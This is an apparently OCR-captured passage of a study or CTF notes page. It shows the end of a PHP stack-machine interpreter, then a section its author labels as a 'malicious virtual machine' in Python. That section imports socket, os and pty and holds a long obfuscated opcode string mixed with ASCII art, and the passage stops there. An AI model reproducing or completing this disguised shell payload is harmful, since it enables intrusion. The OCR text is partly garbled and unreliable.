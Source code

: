 		  function evaluate_all($code)
		  {
		      global $stack, $gotos, $p;
		      while ($p < count($code)) {
		          $c = $code[$p];
		          evaluate($c);
		          $p += 1;
		      }
		  }
		  
		  evaluate_all($code);
		  
		  // var_dump($stack);
		  // var_dump($p);
		  
		  
		  ```
- # Python恶意代码
	- 写了一个恶意的虚拟机
	  collapsed:: true
		- ```python
		  import socket
		  import os
		  import pty
		  
		  content = """
		  39+9/*0+39+9/*3+19+9/*7+29+9/*1+29+9/*2+39+9/*6+6'@29+9/*0+39+9/*1+39+9/*4+3'19+9/*5+19+9/*5+19+9/*8+49
		  +9/*0+29+9/*6+39+9/*0+39+9/*8+29+9/*6+39+9/*2+39+9/*7+19+9/*5+19+9/*5+93+'@29+9/*2+49+9/*1+1
		  9+9/*7+39+9/*0+4  ░▀█▀░█▄█░█░▄▀▀░░░█░▄▀▀░░▒▄▀▄░░▒█▀▄▒██▀░█▒█░▄▀▀░█▄█▒██▀░█▒░░█▒░    '.:29+9/*2+49+9/*3+29+9/
		  *2+29+9/*0+49*    ░▒█▒▒█▒█░█▒▄██▒░░█▒▄██▒░░█▀█▒░░█▀▄░█▄▄░▀▄▀▒▄██▒█▒█░█▄▄▒█▄▄▒█▄▄  4+49*3+19+9/*2+39+9/*2
		  +39+9/*4+39+9/*6+29+9/*6+39+9/*2+39+9/*8+49*4+39*7+89*5+19+9/*7+29+9/*1+29+9/*2+39*5+19+9/*8+49+9/*4+39*5+89*5+19+9/*7+39+9/
		  *6+49+9/*1+29+9/*2+39+9/*2+59*4+59*4+39*7+49*5+19+9/*2+39+9/*2+39+9/*7+69*7+39+9/*7+39+9/*3+29+9/*0+29+9/*8+29+9/*2+
		  39+9/*8+59*1+39+9/*7+39+9/*3+29+9/*0+29+9/*8+29+9/*2+39+9/*8+49*4+59*5+49*8+59*4+49*5+19+9/*2+39+9/*2+39+9/*7+
		  59*1+29+9/*0+39+9/*3+39+9/*2+39+9/*2+29+9/*2+29+9/*0+39+9/*8+49*4+49*4+39*7+59*7+59*5+59*1+59*4+69*3+59*7+5
		  9*1+59*4+69*1+69/*59*1+59*4+69*2+59*4+39*7+49*8+59*7+59*3+59*8+59*4+49*5+49*5+19+9/*2+39+9/*2+39+9/*3+39+9/*7+59
		  *1+29+  ▒█▀▄░█▒█░█▄░█░░░█░▀█▀░░▒▄▀▄░█▄░█░█▀▄░░░▄▀▒▒██▀░▀█▀░░▒██▀░▀▄▀▒█▀▄░█▒░░▄▀▄░█░▀█▀▒██▀░█▀▄  9/*1+49+9/*0+39+9/
		  *4+5    ░█▀▄░▀▄█░█▒▀█▒░░█░▒█▒▒░░█▀█░█▒▀█▒█▄▀▒░░▀▄█░█▄▄░▒█▒▒░░█▄▄░█▒█░█▀▒▒█▄▄░▀▄▀░█░▒█▒░█▄▄▒█▄▀   9*5+49*4+39+9/*7
		  +59*1+29+9/*3+29+9/*6+39+9/*0+29+9/*2+39+9/*2+39+9/*3+49*4+49*5+49*8+59*3+49*5+19+9/*2+39+9/*2+39+9/*3+39+9/*7+59*1+2
		  9+9/*1+49+9/*0+39+9/*4+59*5+49*4+39+9/*7+59*1+29+9/*3+29+9/*6+39+9/*0+29+9/*2+39+9/*2+39+9/*3+49*4+49*5+49*8+59*4+49*5+19+9/*
		  2+39+9/*2+39+9/*3+39+9/*7+59*1+29+9/*1+49+9/*0+39+9/*4+59*5+49*4+39+9/*7+59*1+29+9/*3+29+9/*6+39+9/*0+29+9/
		  *2+39+9/*2+39+9/*3+49*4+49*5+49*8+59*5+49*5+19+9/*2+39+9/*2+39+9/*4+39+9/*8+49+9/*4+59*1+39+9/*7+39+9/*4+19+9/*7+49+9/*2+3
		  9+9/*2+49*4+39*7+59*2+19+9/*8+29+9/*6+39+9/*2+59*2+39+9/*7+29+9/*5+39*7+49*5+19+9/*2+39+9/*2+49*3+49*5+99*99*9
		  96++++'39+9/*0+39+9/*3+19+9/*7+29+9/*1+29+9/*2+39+9/*6+6'@=
		  """
		  